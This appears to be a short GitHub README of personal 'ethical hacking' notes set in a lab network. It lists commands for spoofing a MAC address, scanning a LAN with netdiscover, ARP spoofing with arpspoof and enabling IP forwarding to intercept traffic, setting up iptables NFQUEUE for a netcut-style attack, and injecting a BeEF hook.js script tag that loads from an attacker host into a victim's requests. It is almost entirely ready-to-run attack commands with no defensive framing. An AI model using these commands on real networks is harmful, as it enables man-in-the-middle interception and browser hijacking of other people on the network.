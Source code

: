 # Hetical hacking
## Change mac address 
```
ip link show
sudo ip link set dev <your device here> down
sudo ip link set dev <your device here> address <your new mac address>
sudo ip link set dev <your device here> up
```
## Netdiscover
Scan all devices connected to a network
```
sudo netdiscover -r ip.start/end
```
## ARP SPOOFING
```
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7

echo 1 > /proc/sys/net/ipv4/ip_forward
sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```
## NET CUT
```
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
pip3 install -U git+https://github.com/kti/python-netfilterqueue
sudo pip3 install -U git+https://github.com/kti/python-netfilterqueue
sudo iptables --flush
```
## BeEF Framework
Injecting 
```
<script src="http://10.0.2.10:3000/hook.js"></script>
```
inside the victim request we will be able to BeEF the browser
